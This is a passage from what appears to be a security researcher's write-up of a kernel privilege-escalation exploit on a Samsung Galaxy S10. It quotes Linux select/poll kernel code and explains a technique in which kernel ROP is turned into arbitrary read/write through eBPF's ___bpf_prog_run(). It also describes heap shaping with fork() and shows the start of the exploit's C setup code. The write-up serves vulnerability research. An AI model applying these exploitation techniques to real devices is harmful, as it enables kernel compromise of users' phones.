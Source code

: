 ```
                if (!(bit & all_bits))
                    continue;
                f = fdget(i);
                if (f.file) {
...
                    if (f_op->poll) {
...
                        mask = (*f_op->poll)(f.file, wait);
                    }
                    fdput(f);
                    if ((mask & POLLIN_SET) && (in & bit)) {
                        res_in |= bit;
                        retval++;
...
                    }
...
                }
            }
            if (res_in)
                *rinp = res_in;
            if (res_out)
                *routp = res_out;
            if (res_ex)
                *rexp = res_ex;
            cond_resched();
        }
...
        if (retval || timed_out || signal_pending(current))
            break;
...
        if (!poll_schedule_timeout(&table, TASK_INTERRUPTIBLE,
                       to, slack))
            timed_out = 1;
    }
...
    return retval;
}

```

After getting ROP in kernel, they used eBPF system, because if we can pass arbitrary X1 register value to `___bpf_prog_run()`, we can make arbitrary address read/write and kernel function call by executing a sequence of eBPF instructions.

### [](#our-methodology)Our Methodology

We also shaped heap like what P0 did, but instead of using binder's fd and user threads, we used `fork()` system call, because it also call `vmalloc` in kernel routine. As we developed this exploit on pure Samsung Galaxy S10 SM-973N, all informations we can get is from `adb bugreport` command.

```
...
  
atomic_int *wait_count;

int parent_pipe[2];
int child_pipe[2];
int trig_pipe[2];

void *read_sleep_func(void *arg){
    atomic_fetch_add(wait_count, 1);
    syscall(__NR_read, trig_pipe[0], 0x41414141, 0x13371337, 0x42424242, 0x43434343);

    return NULL;
```